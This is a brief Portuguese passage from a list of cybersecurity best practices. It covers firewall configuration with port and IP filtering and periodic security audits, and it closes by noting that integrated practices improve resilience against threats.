- Rede e Firewall – Configuração adequada de firewalls, restrição de acesso a portas e filtragem de IPs para proteger a infraestrutura de ataques externos.
- Auditoria e revisão – Execução periódica de testes de segurança com scanners e auditorias detalhadas para identificar e corrigir falhas.
- Essas práticas, quando aplicadas de forma integrada, aumentam significativamente a resiliência de sistemas frente a ameaças cibernéticas e contribuem para um ambiente digital mais seguro
